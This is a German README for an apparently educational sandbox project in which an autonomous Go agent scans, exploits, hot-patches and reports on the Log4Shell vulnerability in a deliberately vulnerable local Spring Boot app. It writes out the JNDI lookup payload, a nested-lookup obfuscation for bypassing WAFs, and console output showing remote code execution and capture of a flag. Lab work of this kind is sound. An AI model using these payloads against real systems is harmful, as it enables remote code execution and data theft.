


<p align="center">
  
</p>

<h1 align="center">🤖 AUTO AUDIT</h1>

<p align="center">
  <b>Isolierte Demonstrationsumgebung eines autonomen reaktiven Executor-Agenten (Go/Java)</b>
</p>

<p align="center">
  <a href="README.md"><b>Русский 🇷🇺</b></a> • <a href="README.en.md"><b>English 🇬🇧</b></a> • <a href="README.zh.md"><b>中文 🇨🇳</b></a> • <a href="README.es.md"><b>Español 🇪🇸</b></a> • <a href="README.de.md"><b>Deutsch 🇩🇪</b></a> • <a href="README.it.md"><b>Italiano 🇮🇹</b></a> • <a href="README.ar.md"><b>العربية 🇸🇦</b></a>
</p>

<p align="center">
  <a href="https://golang.org"></a>
  <a href="https://openjdk.org"></a>
  <a href="https://maven.apache.org"></a>
  <a href="LICENSE"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
</p>

---

## 🧭 Übersicht

> [!NOTE]
> **AUTO AUDIT** ist ein Softwaresystem, das einen **100% autonomen geschlossenen Regelkreis (Sense-Think-Act)** zur Entdeckung, Validierung, Ausnutzung, automatischen Behebung (Self-Healing) und Compliance-Berichterstattung für die kritische **Log4Shell**-Schwachstelle (**CVE-2021-44228**) demonstriert.
>
> Die Sandbox startet eine lokale Ziel-Webanwendung auf Basis von **Java Spring Boot**, einen eingebetteten **LDAP TCP Callback Listener** und einen kognitiven **Go-Agenten**-Kern, der Aktionen in einer teilweise beobachtbaren Umgebung (*Partially Observable Markov Decision Process — POMDP*) koordiniert.


```mermaid
%%{init: {
  'theme': 'dark',
  'themeVariables': {
    'background': '#0f172a',
    'primaryColor': '#1e293b',
    'primaryTextColor': '#cbd5e1',
    'primaryBorderColor': '#3b82f6',
    'lineColor': '#38bdf8',
    'secondaryColor': '#1e1b4b',
    'tertiaryColor': '#0f172a',
    'edgeLabelBackground': '#0f172a'
  }
}}%%
graph TD
    classDef sense fill:#0284c7,stroke:#0ea5e9,stroke-width:2px,color:#fff;
    classDef think fill:#4f46e5,stroke:#6366f1,stroke-width:2px,color:#fff;
    classDef act fill:#059669,stroke:#10b981,stroke-width:2px,color:#fff;
    classDef target fill:#dc2626,stroke:#ef4444,stroke-width:2px,color:#fff;

    subgraph Sense ["🔍 SENSORISCHE ANALYSE (Sense)"]
        A[Externe Antworten / TCP-Callbacks]:::sense --> B(Wissensdatenbank aktualisieren):::sense
    end
    subgraph Think ["🧠 KOGNITIVER KERN (Think)"]
        B --> C{Nutzenfunktion berechnen}:::think
        C -->|Reflexive Inferenz| D[Effektor aus Register auswählen]:::think
    end
    subgraph subgraph_Act ["⚡ AUSFÜHRUNG (Act)"]
        D --> E[Execute Tool.Execute]:::act
        E -->|Auswirkung| F((Java Spring Boot Ziel)):::target
        F -.->|Out-of-Band (OOB) Kanal| A
    end
```

---

## 🛠️ Technische Architektur & Komponenten

Die Softwarestruktur des Agenten wurde nach den Prinzipien der hexagonalen Architektur (Ports und Adapter), SOLID und TDD entwickelt:

* 📂 **[cmd/agent/main.go](cmd/agent/main.go)** — Einstiegspunkt. Verwaltet die Lebenszyklen der Hintergrunddienste und koordiniert die Hauptschleife des Agenten.
* 📂 **`internal/`** — Kern der Geschäftslogik des kognitiven Kreislaufs:
  * 🧠 **[agent/agent.go](internal/agent/agent.go)** — Kognitive Engine. Implementiert die Entscheidungsrichtlinie und die Agentenschleife.
  * 💾 **[core/model.go](internal/core/model.go)** — Threadsichere `KnowledgeBase` (Langzeitgedächtnis/LTM) basierend auf einem `sync.RWMutex`.
  * 🔌 **[core/effector.go](internal/core/effector.go)** — `Tool`-Schnittstelle für Effektoren.
  * ⚙️ **[effectors/](internal/effectors/)** — Register polymorpher Effektoren (Werkzeuge):
    * 🔍 `ToolPortScanner` — Aufklärung und Netzwerk-Portscanning.
    * 🌐 `ToolDiscovery` — Parameter-Mapping der Webanwendung und Parsen von Eingabevektoren (`X-Api-Version`).
    * 🔬 `ToolPayloadGenerator` — Synthetisiert JNDI-Signaturvektoren.
    * 🚀 `ToolProber` — Out-of-Band (OOB) Schwachstellenverifizierung.
    * 🛡️ `ToolSemanticFuzzer` — Obfuskationsmutationen (WAF-Umgehung) über verschachtelte Lookups.
    * 🩹 `ToolRemediator` — Automatisiertes Hot-Patching (Self-Healing).
    * 📄 `ToolReporter` — Erstellung von Sicherheitsauditberichten.
* 📂 **`pkg/`** — Gemeinsam genutzte Module und Hilfsprogramme:
  * 📡 **[oob/](pkg/oob/)** — Out-of-Band LDAP- und HTTP-Server.
  * ☕ **[jvm/](pkg/jvm/)** — Verwaltet den kompilierten lokalen Java-Simulationszielprozess.
* 📂 **[deployments/](deployments/)** — Enthält Docker- und Compose-Konfigurationsdateien.
* 📂 **[test/vulnerable-app/](test/vulnerable-app/)** — Verwundbarer Java Spring Boot Ziel-Mikroservice.


---

## 🎯 Mathematischer Apparat & Spezifikation der kognitiven Schleife (Think-Act Loop)

Der Entscheidungsprozess des Agenten ist als **Partiell beobachtbarer Markow-Entscheidungsprozess (POMDP)** formalisiert, dargestellt durch das Tupel $\langle S, A, T, R, \Omega, O, \gamma \rangle$:
* $S$ ist der diskrete Zustandsraum der Zielumgebung (Port-Erreichbarkeit, Mapping von Eingabeparametern, Vorhandensein einer WAF, Kompromittierungsstatus, Patch-Anwendung, Compliance-Dokumentationsstatus).
* $A$ ist der Aktionsraum der Effektoren (Ausführung von Werkzeugen: `port_scanner`, `discovery`, `payload_generator`, `prober`, `semantic_fuzzer`, `remediator`, `reporter`, `stop`).
* $\Omega$ ist der Beobachtungsraum (empfangene HTTP-Statuscodes, OOB-TCP-Callbacks, Dateisystemereignisse).
* $O(o \mid s', a)$ ist die Beobachtungsfunktion, welche die Wahrscheinlichkeit bestimmt, die Beobachtung $o \in \Omega$ nach der Ausführung der Aktion $a$ zu erhalten.

### 1. Repräsentation des Belief-Zustands
Der Agent hat keinen direkten Zugriff auf den verborgenen Zustand $s \in S$ und operiert auf einem Belief-Zustand (Zustandsschätzung) $b(s)$ — einer Wahrscheinlichkeitsverteilung über $S$, die in der threadsicheren `KnowledgeBase` verwaltet und dynamisch aktualisiert wird:
* $b(S_{recon}) \in \{0, 1\}$ — Zustand der Netzwerkaufklärung (offen/geschlossen). Zugeordnet zu `ToolPerformance["port_scanner"]`.
* $b(S_{discovery}) \in \{0, 1\}$ — Zustand des Mappings von Eingabevektoren (ob Parameterorte gefunden wurden). Zugeordnet zu `len(DiscoveryVectors) > 0`.
* $b(S_{payload}) \in \{0, 1\}$ — Bereitschaft der Exploit-Signatur. Zugeordnet zu `len(CustomPayloads) > 0`.
* $b(S_{exploit}) \in \{0, 1\}$ — Kompromittierungsstatus des Ziels (Erbeuten des Flags/Loot). Zugeordnet zu `len(Loot) > 0`.
* $b(S_{patch}) \in \{0, 1\}$ — Hot-Patch-Anwendungsstatus. Zugeordnet zu `PatchApplied`.
* $b(S_{verify}) \in \{0, 1\}$ — Status der Behebungsverifizierung. Zugeordnet zu `PatchVerified`.
* $b(S_{report}) \in \{0, 1\}$ — Status der Compliance-Dokumentation. Zugeordnet zu `ReportGenerated`.

### 2. Policy-Mapping (Entscheidungsrichtlinie)
Die Kern-Entscheidungsschleife `Think()` des Agenten implementiert eine deterministische Policy (Richtlinie) $\pi: B \to A$, die den aktuellen Belief-Zustand $b$ auf die optimale Effektoraktion $a \in A$ abbildet.

### 3. Adaptives Lernen & Effektor-Nutzen
Für jedes Werkzeug $a \in A$ akkumuliert der Agent Ausführungsstatistiken in `ToolStats` und berechnet eine Nützlichkeitsmetrik (Efficiency Score):

$$\text{EfficiencyScore}(a) = \frac{SuccessCount_a}{UsageCount_a}$$

Dies wird für die adaptive Pfadfindung genutzt: Wenn der erste Ausnutzungsversuch (`prober`) fehlschlägt (was bedeutet, dass $\text{EfficiencyScore}(\text{prober}) = 0$ ist), schließt der Agent auf eine WAF-Filterung, ändert seine Strategie, um `semantic_fuzzer` zur Payload-Obfuskation zu aktivieren, und versucht die Ausnutzung erneut.

### Schritt-für-Schritt-Ausführungslebenszyklus:

| Schritt | Ausgewähltes Werkzeug | Aktion & zugrunde liegender Prozess | Änderungen des Belief-Zustands |
| :--- | :--- | :--- | :--- |
| **1** | `port_scanner` | TCP-Socket am Zielport `:8080` abfragen. | HTTP-Port entdeckt ($b(S_{recon}) = 1$). |
| **2** | `discovery` | Header und Seitenstruktur analysieren. | Parameter `X-Api-Version` als Einstiegspunkt identifiziert ($b(S_{discovery}) = 1$). |
| **3** | `payload_generator` | Rohe JNDI-Exploit-Signatur erstellen. | Payloads mit `\${jndi:ldap://127.0.0.1:1389/Exploit\}` aktualisiert ($b(S_{payload}) = 1$). |
| **4** | `prober` | Ausnutzungsversuch. Agent sendet Payload. | Durch WAF des Ziels blockiert. $\text{EfficiencyScore}(\text{prober}) = 0$. |
| **5** | `semantic_fuzzer` | Signaturmutation über verschachtelte Lookups. | Obfuskierte Payload generiert ($b(S_{payload}) = 1$, WAF-Umgehung). |
| **6** | `prober` | Übermittlung der Exploit-Payload mit mutierter Signatur. | LDAP-Server erfasst eingehende TCP-Weiterleitung. RCE bestätigt ($b(S_{exploit}) = 1$). |
| **7** | `remediator` | Automatische Behebung. Hot-Patch der Zielanwendungskonfiguration. | JVM-Properties neu initialisiert mit `-Dlog4j2.formatMsgNoLookups=true` ($b(S_{patch}) = 1$). |
| **8** | `prober` | Verifizierung (erneuter Test). | LDAP-Server überwacht Callback-Port. Verbindung nicht vorhanden $\rightarrow$ $b(S_{verify}) = 1$. |
| **9** | `reporter` | Compliance-Bericht schreiben. | Audit-Bericht unter `reports/cve_2021_44228_report.md` generiert ($b(S_{report}) = 1$). |
| **10**| `stop` | Beendigung. | Schleife beendet. |

## 📊 Algorithmus-Ablaufdiagramme

### 1. Allgemeines Ablaufdiagramm des Agenten-Lebenszyklus (Sense-Think-Act Loop)
Dieses Diagramm veranschaulicht den kontinuierlichen Laufzeit-Lebenszyklus des Agenten, beginnend mit der Initialisierung bis hin zur Erstellung des Compliance-Berichts und dem Herunterfahren der Sitzung.



### 2. Ablaufdiagramm des Entscheidungs-Kernalgorithmus (Think)
Dieses Diagramm stellt die präzise Entscheidungslogik dar, die von der `Think()`-Funktion bei jeder Iteration der Schleife basierend auf dem aktuellen Belief-Zustand ausgeführt wird:



---

## 📦 Spezifikation der verwundbaren Java-Anwendung

Die Zielanwendung unter `test/vulnerable-app/` ist ein REST-Controller, der mit **Spring Boot 2.7.18** und der veralteten **Apache Log4j2**-Abhängigkeit läuft:

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version> <!-- Vulnerable version supporting JNDI lookup -->
</dependency>
```

Der verwundbare Endpunkt protokolliert HTTP-Header ohne Bereinigung (Sanitization):
```java
logger.info("[AUDIT] API Version header logged: {}", apiVersion);
```

Beim Empfang von `${jndi:ldap://...}` initiiert log4j-core die LDAP-Auflösung zum Listener-Port `1389`.

---

## 🚀 Einrichtung & Start

Die Simulationsumgebung unterstützt zwei Bereitstellungsmodi: die lokale Ausführung direkt auf dem Host-Rechner (Option A) oder die vollständig containerisierte Ausführung in einer isolierten Netzwerkumgebung mittels Docker Compose (Option B).

### Option A. Lokaler Start auf dem Host-Rechner

#### Voraussetzungen
* **JDK 17+** (verifizieren via `java -version`)
* **Maven 3.8+** (verifizieren via `mvn -version`)
* **Go 1.21+** (verifizieren via `go version`)

#### 1. Java-Ziel-Mikroservice erstellen
Kompilieren Sie die Java-Zielanwendung in ein ausführbares Fat-JAR:
```bash
cd test/vulnerable-app
mvn clean package
cd ../..
```
*Stellen Sie sicher, dass `test/vulnerable-app/target/vulnerable-app-simple-1.0.0.jar` erstellt wurde.*

#### 2. Exploit-Payload erstellen
Kompilieren Sie die Java-Klasse, die vom HTTP-Webserver bereitgestellt wird:
```bash
javac internal/payload/Exploit.java
```

#### 3. Autonome Sandbox erstellen & ausführen
Führen Sie die Go-Hauptschleife mittels On-the-Fly-Interpretation aus:
```bash
go run ./cmd/agent
```

Oder kompilieren Sie sie in eine eigenständige ausführbare Binärdatei:
```bash
go build -o test_agent ./cmd/agent
./test_agent
```

---

### Option B. Ausführung in einer isolierten Container-Sandbox (Docker Compose)

> [!TIP]
> Diese Methode erfordert keine Installation von Go, Java oder Maven auf Ihrem Host-Rechner. Das gesamte Labor-Setup wird automatisch in einem isolierten virtuellen Netzwerk aufgebaut und ausgeführt, das unter `172.20.0.0/16` segmentiert ist.


#### Voraussetzungen
* **Docker** und das **Docker Compose**-Plugin müssen installiert sein (verifizieren via `docker compose version`).

#### 1. Labor starten
Bauen Sie die Container-Images und starten Sie die Dienste mit einem einzigen Befehl aus dem Projektverzeichnis:
```bash
docker compose -f deployments/docker-compose.yml up --build
```

#### 2. Lebenszyklus & interne Prozesse:
* `vulnerable-app` kompiliert die Spring Boot Anwendung, mountet interne Verzeichnisse, schreibt das geheime Flag in `/var/lib/secret/flag.txt` und stellt Endpunkte auf Port `:8080` bereit.
* `reflective-agent` baut die Go-Compiler-Stufe auf, kompiliert `Exploit.java`, betreibt LDAP/HTTP-Listener und startet die kognitive Schleife.
* Das lokale Verzeichnis `reports/` auf Ihrem Host-Dateisystem wird in den Agenten-Container gemountet — der finale GOST-Compliance-Bericht wird automatisch in Ihrem Host-Ordner unter `reports/cve_2021_44228_report.md` gespeichert.

#### 3. Sandbox stoppen
Um die Container-Umgebungen zu bereinigen und die Netzwerkkonfigurationen freizugeben, führen Sie folgenden Befehl aus:
```bash
docker compose -f deployments/docker-compose.yml down
```

---

## 📊 Beispielhafte Konsolenausgabe

```text
=== ДЕМОНСТРАЦИОННЫЙ СТЕНД РЕАКТИВНОГО АГЕНТА (JAVA SPRING TARGET) ===
[*] Запуск скомпилированного уязвимого Java Spring приложения локально...
[*] Ожидание инициализации веб-контекста Spring (3.5 сек)...
[*] Инициализация агента-исполнителя для цели: http://localhost:8080
================================================================
[ВЫВОД] Выбран инструмент: 'port_scanner' (Текущая фаза: Reconnaissance)
[ЭФФЕКТОР:port_scanner] Сканирование порта localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружен открытый HTTP-порт localhost:8080. Java Spring Web-служба отвечает.

[ВЫВОД] Выбран инструмент: 'discovery' (Текущая фаза: Discovery)
[ЭФФЕКТОР:discovery] Исследование структуры веб-приложения http://localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружены потенциальные векторы ввода: GET-параметр '/?input=' и HTTP-заголовок 'X-Api-Version'.

[ВЫВОД] Выбран инструмент: 'payload_generator' (Текущая фаза: Discovery)
[ЭФФЕКТОР:payload_generator] Анализ уязвимостей и синтез сигнатур...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирована сигнатурная нагрузка для CVE-2021-44228: '${jndi:ldap://127.0.0.1:1389/Exploit}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${jndi:ldap://127.0.0.1:1389/Exploit}' на http://localhost:8080...
[НАБЛЮДЕНИЕ] FAILURE: Атака не удалась. Уязвимость не эксплуатирована или флаг не перехвачен.

[ВЫВОД] Выбран инструмент: 'semantic_fuzzer' (Текущая фаза: Discovery)
[ЭФФЕКТОР:semantic_fuzzer] Запуск обфускации и семантического фаззинга против WAF...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирован обфусцированный vector обхода: '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}' на http://localhost:8080...
[LDAP SERVER] Получен LDAP BindRequest. Отправка BindResponse...
[LDAP SERVER] Получен LDAP SearchRequest. Отправка JNDI Referral...
[HTTP SERVER] Получен запрос на загрузку Exploit.class
[HTTP SERVER] >>> ПЕРЕХВАЧЕН СЕКРЕТНЫЙ ФЛАГ: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026} <<<
[НАБЛЮДЕНИЕ] SUCCESS: LDAP Callback получен на порту 1389. RCE отработал. Перехваченный флаг: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026}.

[ВЫВОД] Выбран инструмент: 'remediator' (Текущая фаза: Remediation)
[ЭФФЕКТОР:remediator] Анализ причин уязвимости и генерация исправления для http://localhost:8080...
[ЭФФЕКТОР:remediator] Отправка команды применения патча на http://localhost:8080/remediate...
[НАБЛЮДЕНИЕ] REMEDIATION_SUCCESS: Патч применен. На целевое приложение отправлен запрос ремедиации (изменен флаг -Dlog4j2.formatMsgNoLookups=true). JVM успешно переинициализирована.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Verification)
[ЭФФЕКТОР:prober] Верификация патча: Повторная атака уязвимости на http://localhost:8080...
[НАБЛЮДЕНИЕ] VERIFICATION_SUCCESS: Попытка эксплуатации отклонена сервером. Входящий TCP-коллбек на port 1389 отсутствует. Уязвимость успешно устранена.

[ВЫВОД] Выбран инструмент: 'reporter' (Текущая фаза: Verification)
[ЭФФЕКТОР:reporter] Формирование отчета об уязвимости по стандартам РФ для http://localhost:8080...
[НАБЛЮДЕНИЕ] REPORT_SUCCESS: Отчет успешно сгенерирован и сохранен в файл 'reports/cve_2021_44228_report.md'.

================================================================
[INFO] Жизненный цикл аудита, патчинга и комплаенса завершен.
```

---

## 📜 Compliance- & Sicherheitsrichtlinien
Der unter `reports/cve_2021_44228_report.md` generierte Compliance-Bericht entspricht den wichtigsten Cybersicherheits-Frameworks:
* **GOST R 56939-2016** — Informationsschutz. Sichere Softwareentwicklung.
* **Föderales Gesetz Nr. 152-FZ** Anforderungen „Über personenbezogene Daten“.
* **Föderales Gesetz Nr. 187-FZ** „Über die Sicherheit der kritischen Informationsinfrastruktur der Russischen Föderation“.

---

## 🛡️ Lizenz
Dieses Projekt ist unter der **MIT-Lizenz** lizenziert. Weitere Einzelheiten finden Sie in der Datei [LICENSE](LICENSE).
